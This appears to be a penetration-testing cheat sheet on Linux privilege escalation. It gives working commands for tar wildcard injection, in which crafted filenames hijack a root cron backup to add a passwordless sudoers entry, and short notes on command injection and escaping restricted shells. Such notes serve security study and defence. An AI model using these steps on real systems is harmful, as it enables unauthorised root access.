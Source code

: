 ## Wildcard Abuse

Certain wildcard characters can be used as placeholders for other characters. This is interpreted by the shell first, before applications in the command.

This means we can trick the command into interpreting our maliciously injected payload.

E.g. with `tar`, suppose we have a frequent cron job like `cd /home/hacked && tar -zcf /home/hacked/backup.tar.gz *` to backup files and archive them. The wildcard will select all files in the directory, so let's create 3 files:

```
hacked@target:~$ echo 'echo "<USERNAME> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
hacked@target:~$ touch --  "--checkpoint-action=exec=sh root.sh"
hacked@target:~$ touch -- --checkpoint=1
```

- Line 1 is a script to give no-password sudo rights to our user HACKED.
- Line 2 will be interpreted by the tar command earlier as a tar command line argument which will configure the execution action script path
- Line 3 is the argument which will trigger script execution

and you get root.


## Escaping Reverse Shells

### Command Injection

If the input is passed to a command as an argument e.g.

```
ls -l `$input`
```

If we pass the input `pwd`, then it will execute and list contents for the present working directory of the shell's context.


### Command Substitution

Try to embed another command within the shell's context, such as enclosing the payload in backticks or `$()` this thing.

### Command Chaining

Try chaining with `;` or `|`, `&`?

### Environment Variables

Check if the environment variables are used by the shell's execution for commands that are not restricted, e.g. if the shell uses an environment variable to set the shell's working directory.

### Shell Functions

Try defining a shell function with otherwise-restricted commands and seeing if calling the function will allow you unrestricted execution.
